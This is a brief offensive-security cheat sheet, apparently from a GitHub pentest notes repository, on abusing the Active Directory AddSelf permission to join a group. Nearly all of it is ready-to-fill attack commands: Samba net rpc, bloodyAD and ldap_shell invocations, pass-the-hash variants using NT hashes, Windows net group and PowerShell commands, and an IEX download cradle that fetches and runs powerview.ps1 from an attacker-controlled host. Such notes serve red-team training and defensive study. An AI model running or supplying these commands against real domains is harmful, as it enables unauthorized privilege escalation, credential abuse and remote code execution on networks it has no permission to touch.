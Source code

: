 # Abusing AddSelf

If an user have AddSelf over a group can add itself inside the group. This can be done with multiple tools.

### From Linux (enternally recomended):

Samba tools -> `net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'<password>' -S '<dc-ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p '<password>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc group addmem '<target_group>' '<target_user>' -U '<domain>'/'<controlled_user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' add groupMember '<group>' '<user>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`add_user_to_group <user> <group>`

<br>

### From Windows (internally):

`net group <group> <user> /add /domain`

Additionally can be done with Active directory module (powershell module):

`Add-ADGroupMember -Identity '<group>' -Members '<user>'`

Also is possible with powerview module:

Load module -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`Add-DomainGroupMember -Identity '<group>' -Members '<user>'`







